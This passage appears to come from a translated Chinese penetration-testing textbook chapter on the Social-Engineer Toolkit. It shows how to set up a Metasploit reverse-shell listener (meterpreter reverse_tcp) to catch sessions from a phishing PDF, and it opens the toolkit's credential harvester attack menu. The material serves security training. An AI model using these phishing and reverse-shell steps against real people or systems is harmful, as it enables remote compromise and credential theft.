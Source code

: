 当然，在这个示例中，我只是将电子邮件发送给我自己。我们在第五章中使用过像 theHarvester 这样的工具来找到有效的电子邮件地址进行目标攻击。

### 设置监听器

我们还可以让 SET 设置一个 Metasploit 监听器来捕获我们的有效载荷，如果有人打开了电子邮件附件。即使你不熟悉 Metasploit 语法，你也应该能够使用 SET 根据我们在设置选项中选择的选项来设置此攻击。你可以看到，SET 使用资源文件根据我们在构建有效载荷时的先前回答自动设置有效载荷、`LHOST`和`LPORT`选项（见示例 11-10）。

示例 11-10. 设置监听器

```
set:phishing> Setup a listener [yes|no]: **yes**
Easy phishing: Set up email templates, landing pages and listeners
in Metasploit Pro's wizard -- type 'go_pro' to launch it now.

       =[ metasploit v4.8.2-2014010101 [core:4.8 api:1.0]
+ -- --=[ 1246 exploits - 678 auxiliary - 198 post
+ -- --=[ 324 payloads - 32 encoders - 8 nops

[*] Processing src/program_junk/meta_config for ERB directives.
resource (src/program_junk/meta_config)> use exploit/multi/handler
resource (src/program_junk/meta_config)> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
resource (src/program_junk/meta_config)> set LHOST 192.168.20.9
LHOST => 192.168.20.9
resource (src/program_junk/meta_config)> set LPORT 443
LPORT => 443
--*snip*--
resource (src/program_junk/meta_config)> exploit -j
[*] Exploit running as background job.
msf  exploit(handler) >
[*] Started reverse handler on 192.168.20.9:443
[*] Starting the payload handler...
```

现在我们等待一个好奇的用户打开我们的恶意 PDF 并发送会话给我们。使用 ctrl-C 关闭监听器并输入`exit`返回到上一个菜单。选项 99 将把你带回 SET 的社会工程学攻击菜单。

## 网络攻击

在这一部分，我们将讨论基于 Web 的攻击。返回到社会工程攻击菜单(示例 11-2)，选择选项**`2`**（`网站攻击向量`）。这是我在具有社会工程学组件的渗透测试中最常用的攻击类型，因为它模拟了许多现实中看到的社会工程学攻击。

你应该会看到一个列出的网站攻击列表，如 示例 11-11 所示。

示例 11-11. SET 网站攻击

```
   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
--*snip*--
  99) Return to Main Menu

set:webattack> **3**
```
